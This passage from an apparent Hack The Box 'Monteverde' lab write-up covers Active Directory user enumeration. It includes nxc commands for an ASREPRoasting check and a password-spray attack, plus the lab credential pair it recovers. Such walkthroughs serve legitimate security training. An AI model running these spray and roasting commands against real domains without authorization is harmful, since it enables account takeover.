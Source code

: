 <figure><img src="../../../.gitbook/assets/monte_smb_enum.png" alt=""><figcaption><p>Figure 2: Retrieving domain users via a RPC NULL session.</p></figcaption></figure>

After obtaining a username list, the first thing on our [AD Checklist](../../../tools/tools/active-directory/ad-checklist.md) is to check for [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md). Unfortunately, no account seems to be vulnerable. Next, we can try a password-spray attack and by doing that we get a pair of credentials: `SABatchJobs:SABatchJobs` (Figure 3).

{% code overflow="wrap" %}
```bash
# performing an ASREPRoasting attack
nxc ldap monteverde.megabank.local -u usernames -p '' --asreproast asrep_users
# performing a password-spray attack
nxc ldap monteverde.megabank.local -u usernames -p usernames --continue-on-success | grep +
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/monte_pass_spray.png" alt=""><figcaption><p>Figure 3: Performing a password spray attack.</p></figcaption></figure>

## Foothold

### SMB Enumeration (2)
